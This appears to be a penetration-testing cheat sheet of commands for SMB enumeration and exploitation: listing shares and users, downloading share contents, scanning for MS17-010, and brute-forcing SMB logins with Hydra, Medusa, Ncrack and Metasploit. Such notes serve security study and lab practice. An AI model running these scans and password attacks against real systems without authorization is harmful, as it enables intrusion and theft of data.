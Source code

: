 ## SMB Enumeration & Exploitation

### * SMB Enumeration
 #### Enumerate Hostname
    nmblookup -A [IP]
 #### List Shares
   ##### smbmap
    smbmap -H 192.168.10.1

    smbmap -R [shared dir] -H 192.168.10.1 = list contents

    smbmap -R [shared dir] -H 192.168.10.1 -A [filename.xml] -q = download content 

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1 -R [Users] = download all contents in a filename Users

##### smbclient ( -L list shares, -N anonymous logon,)

    smbclient -L //192.168.10.1

    smbclient -L //10.10.10.100 -N

   download all contents in a filename folder[ ! password required]

    smbclient //192.168.10.1/filename

    > recurse ON
 
    > prompt OFF
 
    > mget *
    
 ##### Rpcclient
    rpcclient -U "" -N 192.168.1.102
    enumdomusers
 #### Check Null Sessions
 
 #### Overall Scan
    enum4linux -S 192.168.10.1



### Check for Vulnerabilities
    git clone https://github.com/peterpt/eternal_scanner.git && cd eternal_scanner
    
    nmap --script smb-vuln* -p 139,445 [ip]
    
    nmap -T4 -p445 --script smb-vuln-ms17-010 192.168.1.106
    
    use auxiliary/scanner/smb/smb_ms17_010

### Exploitation

 #### Hack SMB Login Password
    Hydra - hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    X-Hydra
    Medusa - medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
    Ncrack - ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
    Metasploit
      use auxiliary/scanner/smb/smb_login
      msf exploit (smb_login)>set rhosts 192.168.1.118
      msf exploit (smb_login)>set user_file /root/Desktop/user.txt
      msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
      msf exploit (smb_login)>set stop_on_success true
      msf exploit (smb_login)>exploit


### NBTSCAN

nbtscan -r 10.0.2.0/24


### NMAP
nmap --script smb-enum-shares -p 139,445 [ip]

nmap --script smb-enum-services -p 445 192.168.10.1 -d

nmap -p 445 -A 192.168.1.101

nmap -p 1-65535 -T4 -O -A -v 10.0.2.15


SMB Enumeration Techniques using Windows Tools:

1. NetBIOS Enumerator (nbtenum)

http://nbtenum.sourceforge.net/
------------------------------------------------------------

SMB\RPC Enumeration (139/445):

    enum4linux –a 10.0.0.1
    nbtscan x.x.x.x // Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
    py 192.168.XXX.XXX 500 50000 dict.txt
    python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
    nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient INSERTIPADDRESS ipc$ -U john
    
_____________________________________________________________________________________________________________________________________
### Other links

https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b

https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/

https://www.hackingarticles.in/3-ways-scan-eternal-blue-vulnerability-remote-pc/

https://www.hackingarticles.in/smb-penetration-testing-port-445/

https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/

